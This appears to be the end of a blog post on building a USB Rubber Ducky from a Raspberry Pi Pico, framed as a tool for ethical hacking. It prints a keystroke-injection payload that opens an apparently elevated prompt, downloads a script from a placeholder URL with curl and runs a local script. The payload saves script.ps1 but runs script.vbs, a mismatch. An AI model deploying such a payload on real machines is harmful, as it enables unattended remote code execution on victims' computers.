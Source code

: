 `CONTROL SHIFT ENTER`

`DELAY 1000`&#x20;

`LEFT`&#x20;

`DELAY 500`

`ENTER`&#x20;

`DELAY 1000`

`STRING cd .\Downloads\`

`ENTER`&#x20;

`DELAY 500`

`STRING curl URL/to/your/powershell/script -O script.ps1`&#x20;

`ENTER`

`DELAY 500`

`STRING .\script.vbs`

`ENTER`

`DELAY 500`

`STRING exit`

`ENTER`

#### **Summary:**

In this blog post, we explore the Raspberry Pi Pico's versatility as a microcontroller board, discussing its programmable features. We investigate the motivations behind hackers and security enthusiasts choosing the Raspberry Pi Pico for ethical hacking and security testing. Furthermore, we provide a step-by-step guide on how to create a USB Rubber Ducky using the Raspberry Pi Pico, making it an accessible tool for various security and automation applications.

References:

[https://github.com/dbisu/pico-ducky](https://github.com/dbisu/pico-ducky)
